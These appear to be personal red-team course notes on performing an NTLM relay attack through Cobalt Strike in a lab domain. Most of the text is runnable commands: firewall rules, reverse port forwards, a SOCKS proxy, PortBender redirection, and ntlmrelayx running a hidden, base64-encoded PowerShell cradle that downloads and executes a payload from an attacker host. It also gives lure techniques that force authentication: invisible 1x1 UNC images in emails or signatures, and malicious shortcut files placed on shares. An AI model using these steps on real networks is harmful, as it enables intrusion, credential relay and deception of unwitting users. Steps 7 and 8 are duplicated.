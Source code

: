 
In an NTLM relay attack, an attacker is able to intercept or capture NTLM authentication traffic and effectively allows them to impersonate the client against the same, or another service.  

For instance, a client attempts to connect to Service A, but the attacker intercepts the authentication traffic and uses it to connect to Service B as though they were the client.

## 🖊️ Tools

[Responder](https://github.com/lgandx/Responder) 
[ntlmrelayx](https://github.com/SecureAuthCorp/impacket/tree/master/impacket/examples/ntlmrelayx)

## 📔 via [[Cobalt Strike]]

It's still possible to do with Cobalt Strike, but requires the use of multiple capabilities simultaneously.

1. A [driver](https://reqrypt.org/windivert.html) to redirect traffic destined for port 445 to another port (e.g. 8445) that we can bind to.
2. A reverse port forward on the port the SMB traffic is being redirected to.  This will tunnel the SMB traffic over the C2 channel to our Team Server.
3. The tool of choice (ntlmrelayx) will be listening for SMB traffic on the Team Server.
4. A SOCKS proxy is to allow ntlmrelayx to send traffic back into the target network.

Process:

1) Obtain a SYSTEM beacon on the machine you will capture the SMB traffic on.
2) Next, allow those ports inbound on the Windows firewall.

```
beacon> powershell New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8445
beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
```

3) Then start two reverse port forwards - one for the SMB capture, the other for a PowerShell download cradle.

```
beacon> rportfwd 8445 localhost 445
[+] started reverse port forward on 8445 to localhost:445

beacon> rportfwd 8080 localhost 80
[+] started reverse port forward on 8080 to localhost:80
```

4) The final part of the setup is to start a SOCKS proxy that ntlmrelayx can use to send relay responses back into the network.

```
beacon> socks 1080
[+] started SOCKS4a server on: 1080
```

5) Now we can start `ntlmrelayx.py` listening for incoming connections on the Team Server.  The `-c` parameter allows us to execute an arbitrary command on the target after authentication has succeeded.

```
attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t smb://10.10.122.10 -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAyADMALgAxADAAMgA6ADgAMAA4ADAALwBiACIAKQA='
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client RPC loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

Where:

- 10.10.122.10 is the IP address of `dc-2.dev.cyberbotic.io`, which is our target.
- The encoded command is a download cradle pointing at `http://10.10.123.102:8080/b`, and `/b` is an SMB payload.

6) [PortBender](https://github.com/praetorian-inc/PortBender) is a reflective DLL and aggressor script specifically designed to help facilitate relaying through Cobalt Strike.  It requires that the driver be located in the current working directory of the Beacon.  It makes sense to use `C:\Windows\System32\drivers` since this is where most Windows drivers go.

```
beacon> cd C:\Windows\system32\drivers
beacon> upload C:\Tools\PortBender\WinDivert64.sys
```

7) Then go to _Cobalt Strike > Script Manager_ and load `PortBender.cna` from `C:\Tools\PortBender` - this adds a new `PortBender` command to the console.
8) Then go to _Cobalt Strike > Script Manager_ and load `PortBender.cna` from `C:\Tools\PortBender` - this adds a new `PortBender` command to the console.
9) Execute PortBender to redirect traffic from 445 to port 8445.

```
beacon> PortBender redirect 445 8445
[+] Launching PortBender module using reflective DLL injection
Initializing PortBender in redirector mode
Configuring redirection of connections targeting 445/TCP to 8445/TCP
```

To trigger the attack, we need to coerce a user or a machine to make an authentication attempt to our listening machine. 

10) Once a user authenticates against our listening machine, all that's left is to link to the Beacon.
```
beacon> link dc-2.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
[+] established link to child beacon: 10.10.122.10
```


##  📗 Lure users into triggering NTLM Relaying

#### 1x1 Images in Emails

If you have control over an inbox, you can send emails that have an invisible 1x1 image embedded in the body.  When the recipients view the email in their mail client, such as Outlook, it will attempt to download the image over the UNC path and trigger an NTLM authentication attempt.

`<img src="\\10.10.123.102\test.ico" height="1" width="1" />`

A sneakier means may be to modify the sender's email signature, so that even legitimate emails they send will trigger NTLM authentication from every recipient who reads them.

#### Windows Shortcuts

A Windows shortcut can have multiple properties including a target, working directory and an icon.  Creating a shortcut with the icon property pointing to a UNC path will trigger an NTLM authentication attempt when it's viewed in Explorer (it doesn't even have to be clicked).  A good location for these is on publicly readable shares.

The easiest way to create a shortcut is with PowerShell.
```
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\dc-2\software\test.lnk")
$shortcut.IconLocation = "\\10.10.123.102\test.ico"
$shortcut.Save()
```

#### Remote Authentication Triggers

Tools such as [SpoolSample](https://github.com/leechristensen/SpoolSample), [SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers) and [PetitPotam](https://github.com/topotam/PetitPotam) can force a computer into authenticating to us.  These generally work via Microsoft RPC protocols, such as [MS-RPRN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) and [MS-EFS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/4892c610-4595-4fba-a67f-a2d26b9b6dcd).

### ⚠ Opsec




### Properties
---
📆 created   {{17-02-2024}} 20:16
🏷️ tags: #redteam #crto 

---

